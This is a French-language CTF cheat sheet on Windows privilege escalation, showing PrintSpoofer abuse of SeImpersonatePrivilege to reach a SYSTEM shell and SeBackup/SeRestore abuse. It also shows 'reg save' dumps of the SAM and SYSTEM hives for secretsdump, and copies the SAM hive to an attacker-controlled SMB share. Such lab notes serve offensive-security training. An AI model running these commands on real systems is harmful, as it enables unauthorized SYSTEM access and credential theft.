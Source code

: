 ```yaml
---
title: Privilege Escalation
description: Techniques pour élever les privilèges dans les CTF. Windows/Linux
layout: default
---
```


# Privilege Escalation

- **SeImpersonatePrivilege**
Pour ca j'utilise `PrintSpoofer.exe`

- https://juggernaut-sec.com/seimpersonateprivilege/
- https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/

```sh
$ *Evil-WinRM* PS C:\temp> .\PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.20348.3453]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>

$ *Evil-WinRM* PS C:\temp> dir


    Directory: C:\temp


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          6/6/2025   3:07 AM          27136 PrintSpoofer.exe
-a----          6/6/2025   3:07 AM           7168 shell.exe


.*Evil-WinRM* PS C:\temp> .\PrintSpoofer.exe -i -c "c:\temp\shell.exe"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system


```



**SeBackupPrivilege/SeRestorePrivilege**
Quand on a ces deux privilege la: on peux utiliser deja le : [SeRestoreAbuse](https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe)  de xct deja disponible en .exe pour exploiter le `SeRestorePrivilege`

```sh
$ *Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> 

```


et maintenant si c'est le `SeBackupPrivilege` alors j'utilise `reg save` pour enregister les `ntds`: 


```sh
$ *Evil-WinRM* PS C:\temo> reg save hklm\system c:\temo\system.hive
The operation completed successfully.
*Evil-WinRM* PS C:\temo> reg save hklm\sam c:\temo\sam.hive
The operation completed successfully.
*Evil-WinRM* PS C:\temo> 
```

Ensuite transfere en local pour lire les fichiers importantes avec `secretsdump` de impacket

## Transfert

```sh
$ impacket-smbserver -smb2support public share
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

$ *Evil-WinRM* PS C:\temo> copy c:\temo\sam.hive \\10.10.14.4\public\
```